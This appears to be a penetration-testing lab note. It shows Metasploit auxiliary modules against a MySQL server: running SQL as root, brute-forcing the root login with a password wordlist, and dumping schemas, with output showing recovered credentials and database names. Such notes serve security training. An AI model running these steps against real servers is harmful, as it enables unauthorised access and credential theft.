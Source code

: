 > **`auxiliary/admin/mysql/mysql_sql`**

```bash
search mysql_sql
use auxiliary/admin/mysql/mysql_sql
options
set USERNAME root
set PASSWORD twinkle
run
# set an SQL query
set SQL show databases;
run
```

```bash
[*] 192.64.22.3:3306 - Sending statement: 'select version()'...
[*] 192.64.22.3:3306 -  | 5.5.61-0ubuntu0.14.04.1 |

[*] 192.64.22.3:3306 - Sending statement: 'show databases;'...
[*] 192.64.22.3:3306 -  | information_schema |
[*] 192.64.22.3:3306 -  | mysql |
[*] 192.64.22.3:3306 -  | performance_schema |
[*] 192.64.22.3:3306 -  | upload |
[*] 192.64.22.3:3306 -  | vendors |
[*] 192.64.22.3:3306 -  | videos |
[*] 192.64.22.3:3306 -  | warehouse |
```

> **`auxiliary/scanner/mysql/mysql_file_enum`**

> **`auxiliary/scanner/mysql/mysql_hashdump`**

> **`auxiliary/scanner/mysql/mysql_login`**

```bash
search mysql_login
use auxiliary/scanner/mysql/mysql_login
options
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS false
run
```

```bash
[+] 192.64.22.3:3306 - 192.64.22.3:3306 - Success: 'root:twinkle'
```

> **`auxiliary/scanner/mysql/mysql_schemadump`**

```bash
search mysql_schemadump
use auxiliary/scanner/mysql/mysql_schemadump
options
set USERNAME root
set PASSWORD twinkle
run
```
